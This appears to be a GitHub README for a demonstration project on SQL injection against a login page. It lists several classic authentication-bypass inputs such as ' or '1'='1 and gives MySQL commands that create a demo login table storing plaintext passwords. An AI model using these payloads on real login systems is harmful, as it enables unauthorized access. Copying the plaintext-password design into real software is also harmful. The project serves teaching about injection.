 # SQL-Injection
This project is about demonstration of sql injection how login system can be attacked

Here Login page is present on which sql injection commands are run on it

few are:
1.)user = '- 
AND pass = '-

2.)'admin or 5=5# 
AND pass = '5

3.) user = 'or '1'='1 
    AND pass = ' or '1'='1

for MYSQL run this command

== MySQL Database ===================================

mysql> create database login;


mysql> use login;


mysql> create table login (id INT not null auto_increment primary key, user VARCHAR (20), pass VARCHAR(40));


mysql> insert into login (user,pass) values ('admin','123456');


mysql> insert into login (user,pass) values ('abhishek','abcd');


mysql> insert into login (user,pass) values ('arjun','0d107d05c71e9e9b7');
